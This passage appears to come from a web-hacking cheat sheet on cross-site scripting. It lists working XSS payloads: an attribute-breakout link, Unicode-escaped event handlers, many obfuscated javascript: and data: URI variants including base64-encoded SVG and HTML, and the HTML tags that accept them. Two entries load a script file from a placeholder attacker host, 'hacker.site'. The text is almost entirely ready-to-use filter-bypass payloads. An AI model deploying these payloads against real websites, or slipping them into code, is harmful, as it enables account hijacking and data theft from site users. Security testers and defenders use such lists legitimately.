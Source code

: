 ```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```

**Bypass inside event using Unicode encode**

```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```

### Special Protocols Within the attribute

There you can use the protocols **`javascript:`** or **`data:`** in some places to **execute arbitrary JS code**. Some will require user interaction on some won't.

```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line 
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```

**Places where you can inject these protocols**

**In general** the `javascript:` protocol can be **used in any tag that accepts the attribute `href`** and in **most** of the tags that accepts the **attribute `src`** (but not `<img`)

```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf 
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf 
<iframe srcdoc="<svg onload=alert(4);>">
```